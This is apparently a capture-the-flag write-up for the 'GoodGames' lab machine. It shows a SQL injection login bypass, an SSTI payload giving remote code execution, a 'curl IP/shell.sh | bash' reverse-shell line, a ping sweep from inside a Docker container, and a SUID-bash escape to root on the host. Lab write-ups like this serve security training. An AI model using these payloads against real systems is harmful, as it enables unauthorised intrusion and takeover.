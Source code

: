 ```yaml
---
description: >-
  Basic web exploits of SQL Injection and SSTI, followed by a Docker Container
  Escape.
---
```


# GoodGames

## Gaining Access

As usual we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (63) (2).png" alt=""><figcaption></figcaption></figure>

Take note of the `goodgames.htb` domain name.&#x20;

### SQL Injection

The website is about some video games stuff:

<figure><img src="../../../.gitbook/assets/image (23) (2) (2).png" alt=""><figcaption></figcaption></figure>

In the corner of the page, there's a login available.

<figure><img src="../../../.gitbook/assets/image (41) (2).png" alt=""><figcaption></figcaption></figure>

This login is bypassable with the `' OR 1=1 -- -` input for the `email` parameter. When we login, we would be redirected to `internal-administration.goodgames.htb`.  This page has another login where SQL Injection does not work.

<figure><img src="../../../.gitbook/assets/image (1) (1) (7).png" alt=""><figcaption></figcaption></figure>

Initially, I assumed that we needed to find credentials elsewhere and looked around the website. Understanding that there was an SQL Injection weakness earlier, we probably could dump out the credentials.

I used `sqlmap` to automatically dump ot out, and got `admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec` as the output. This hash could be cracked to give the password of `superadministrator`.&#x20;

### SSTI in Username

Once logged in, the page redirected us to a dashboard where we could update our user profile.

<figure><img src="../../../.gitbook/assets/image (35) (3).png" alt=""><figcaption></figcaption></figure>

The profile updater takes the user input for full name and outputs it on the screen. I tested this with a `{{7*7}}` payload as this was running on Werkzeug, which was a Python based server (detected in Nmap scan earlier).&#x20;

I was pleased to see that it worked:

<figure><img src="../../../.gitbook/assets/image (13) (3) (1).png" alt=""><figcaption></figcaption></figure>

With that, I proceeded to dump out the config of this server using `{{config.items()}}`.&#x20;

<figure><img src="../../../.gitbook/assets/image (44) (2) (1).png" alt=""><figcaption></figcaption></figure>

The SSTI also granted us RCE on the server with this payload:

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

<figure><img src="../../../.gitbook/assets/image (53) (2) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can replace the `id` command with a `curl IP/shell.sh | bash` payload to gain a reverse shell as root on this Docker Container.

<figure><img src="../../../.gitbook/assets/image (22) (5) (1).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

Now that we are in the container, we can scan around the network for other hosts that are alive. This can be done using this one-liner:

```bash
for i in {1..254}; do ping -c 1 172.19.0.$i | grep 'from; done 
```

<figure><img src="../../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

172.19.0.1, but we have no users and cannot do much with this for now. We can check the `/home` directory to find the `augustus` user. Additionally, I used `mount` to check all the directories mounted into the container from the host.

<figure><img src="../../../.gitbook/assets/image (51) (2) (1).png" alt=""><figcaption></figcaption></figure>

Since there was no `augustus` user within the `/etc/passwd` file on the container, this must be from the host. I just tried to SSH into 172.19.0.1, and it worked.

<figure><img src="../../../.gitbook/assets/image (52) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Earlier, we determined using `mount` that a possible mount point was the `/home/augustus` directory. Files that were edited while I was in the container were reflected within the host as well.&#x20;

When copying files into that directory, because I was a root user in the container, the owner of the files in the host was also root. So, I copied over `/bin/bash` and did `chmod +s bash` within the user directory.

This created a bash file with the SUID bit set within the host:

<figure><img src="../../../.gitbook/assets/image (31) (1) (3).png" alt=""><figcaption></figcaption></figure>

Getting root is trivial:

<figure><img src="../../../.gitbook/assets/image (59) (2).png" alt=""><figcaption></figcaption></figure>
